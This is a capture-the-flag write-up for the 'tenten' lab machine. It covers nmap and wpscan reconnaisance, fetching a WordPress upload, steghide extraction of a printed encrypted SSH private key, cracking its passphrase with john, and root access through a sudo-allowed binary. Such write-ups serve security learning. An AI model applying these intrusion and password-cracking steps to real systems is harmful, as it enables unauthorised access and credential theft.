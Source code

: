 # tenten

tenten was a relatively easy medium linux box that involved recon of the wordpress site to find a jpg file. We then run steghide on the file to get an rsa key which we extract the password from using ssh2john. We then ssh into the box as user, for root we find an intersesting file called `fuckin` which we can abuse to get comand execution and read the root flag.

> Skills involved in this box:
- enumeration
- privelage escalation
- hash cracking
- steghide

# USER

> Nmap

```shell
nmap -sC -sV -o nmap 10.10.10.10

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 09:24 EDT                                                    
Nmap scan report for 10.10.10.10                                                                                   
Host is up (0.031s latency).                                                                                       
Not shown: 998 filtered ports                                                                                      
PORT   STATE SERVICE VERSION                                                                                       
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)                                  
| ssh-hostkey:                                                                                                     
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)                                                     
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our nmap scan reveals just 2 ports open, 22 on ssh and port 80 on http.

We head over to the website and se imeediately that it is wordpress, instead of using dirbuster or any oter reconnaisance tools we use wpscan which is made specifically for wordpress.

```shell
$ sudo wpscan -u http://10.10.10.10 
[+] We found 1 plugins:

[+] Name: job-manager - v7.2.5
 |  Latest version: 0.7.25 (up to date)
 |  Last updated: 2015-08-25T22:44:00.000Z
 |  Location: http://10.10.10.10/wp-content/plugins/job-manager/
 |  Readme: http://10.10.10.10/wp-content/plugins/job-manager/readme.txt
[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+-------+-------+
    | Id | Login | Name  |
    +----+-------+-------+
    | 1  | takis | takis |
    | 2  | user1 | user1 |
    +----+-------+-------+
```

We can see that there is a user called takis on the site, we assume that this is going to be the user for this box.

Afer navigating to the http page and enumerating the website we come accross the job listings page where we click `apply` and we get an interesting url.

`http://10.10.10.10/index.php/jobs/apply/8/`


 We can see that there is the number `8` which we assume is the id of the person logged on, we test a few more numbers and we get a unique user called `HackerAccessGranted` we assume that this has to be the right thing.

 We could also get this by intercepting the request with burpsuite and sending it to intruder, we then generate a custom payload with numbers(e.g like 1-20), then take a look at the output and get the same response for number 13.

 >Exploit

 he wordpress directory structure for the uploaded files is known as /wp-content/uploads/%year%/%month%/%filename% - file structure for wordpress

We test file extensions for our wanted file and it finally  works with a `jpg` file.
```shell
wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
This can also be find by fuzzing further for files or by using an exploit `CVE-2015-6668` which is a python script that bruteforces files and shows us the image file.

We then run steghide on this image to see if we can exfiltrate any hidden data inside it.

```shell
kali@kali:~/boxes/tenten$ steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".

cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C

/HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax
tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo
1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf
K2ny0iTGPndD7LMdm/o5O5As+ChDYFNphV1XDgfDzHgonKMC4iES7Jk8Gz20PJsm
SdWCazF6pIEqhI4NQrnkd8kmKqzkpfWqZDz3+g6f49GYf97aM5TQgTday2oFqoXH
WPhK3Cm0tMGqLZA01+oNuwXS0H53t9FG7GqU31wj7nAGWBpfGodGwedYde4zlOBP
VbNulRMKOkErv/NCiGVRcK6k5Qtdbwforh+6bMjmKE6QvMXbesZtQ0gC9SJZ3lMT
J0IY838HQZgOsSw1jDrxuPV2DUIYFR0W3kQrDVUym0BoxOwOf/MlTxvrC2wvbHqw
AAniuEotb9oaz/Pfau3OO/DVzYkqI99VDX/YBIxd168qqZbXsM9s/aMCdVg7TJ1g
2gxElpV7U9kxil/RNdx5UASFpvFslmOn7CTZ6N44xiatQUHyV1NgpNCyjfEMzXMo
6FtWaVqbGStax1iMRC198Z0cRkX2VoTvTlhQw74rSPGPMEH+OSFksXp7Se/wCDMA
pYZASVxl6oNWQK+pAj5z4WhaBSBEr8ZVmFfykuh4lo7Tsnxa9WNoWXo6X0FSOPMk
tNpBbPPq15+M+dSZaObad9E/MnvBfaSKlvkn4epkB7n0VkO1ssLcecfxi+bWnGPm
KowyqU6iuF28w1J9BtowgnWrUgtlqubmk0wkf+l08ig7koMyT9KfZegR7oF92xE9
4IWDTxfLy75o1DH0Rrm0f77D4HvNC2qQ0dYHkApd1dk4blcb71Fi5WF1B3RruygF
2GSreByXn5g915Ya82uC3O+ST5QBeY2pT8Bk2D6Ikmt6uIlLno0Skr3v9r6JT5J7
L0UtMgdUqf+35+cA70L/wIlP0E04U0aaGpscDg059DL88dzvIhyHg4Tlfd9xWtQS
VxMzURTwEZ43jSxX94PLlwcxzLV6FfRVAKdbi6kACsgVeULiI+yAfPjIIyV0m1kv
5HV/bYJvVatGtmkNuMtuK7NOH8iE7kCDxCnPnPZa0nWoHDk4yd50RlzznkPna74r
Xbo9FdNeLNmER/7GGdQARkpd52Uur08fIJW2wyS1bdgbBgw/G+puFAR8z7ipgj4W
p9LoYqiuxaEbiD5zUzeOtKAKL/nfmzK82zbdPxMrv7TvHUSSWEUC4O9QKiB3amgf
yWMjw3otH+ZLnBmy/fS6IVQ5OnV6rVhQ7+LRKe+qlYidzfp19lIL8UidbsBfWAzB
9Xk0sH5c1NQT6spo/nQM3UNIkkn+a7zKPJmetHsO4Ob3xKLiSpw5f35SRV+rF+mO
vIUE1/YssXMO7TK6iBIXCuuOUtOpGiLxNVRIaJvbGmazLWCSyptk5fJhPLkhuK+J
YoZn9FNAuRiYFL3rw+6qol+KoqzoPJJek6WHRy8OSE+8Dz1ysTLIPB6tGKn7EWnP
-----END RSA PRIVATE KEY-----
```
It works and it outputs to a file called id_rsa which is the ssh key for the user takis.

We try ssh into the box but the key is password protected.

```shell
kali@kali:~/boxes/tenten$ chmod 600 id_rsa
kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password:
```
From here we tried `ssh2john.py` with `john` which worked great!

```shell
sudo /usr/share/john/ssh2john.py  id_rsa > hash

kali@kali:~/boxes/tenten$ sudo john -w=/home/kali/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:07 DONE (2020-06-22 09:41) 0.1416g/s 2031Kp/s 2031Kc/s 2031KC/sa6_123..*7¡Vamos!
Session completed
```
So now we got our password `superpassword`.

We ssh into the box and read our user flag.

```shell

kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
takis@tenten:~$ ls
user.txt
takis@tenten:~$ cat user.txt
e5c7ed3b89e73049c04c432fc8686f31
```
We run `sudo -l` to check if we have any privs for running things as sudo and it turns out that we do.
```shell
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
we can see here that the user can run the file `fuckin` as root.

We experiment with what the file can do and we realise that we can simply specify the command after the file, we willl use this to read the root flag.
```shell
takis@tenten:~$ fuckin cat /root/root.txt
cat: /root/root.txt: Permission denied
takis@tenten:~$ fuckin id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
takis@tenten:~$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)
takis@tenten:~$ sudo fuckin cat /root/root.txt
f9f7291e39a9a2a011b1425c3e08f603
takis@tenten:~$ 
```
Thanks for reading hope you enjoyed!
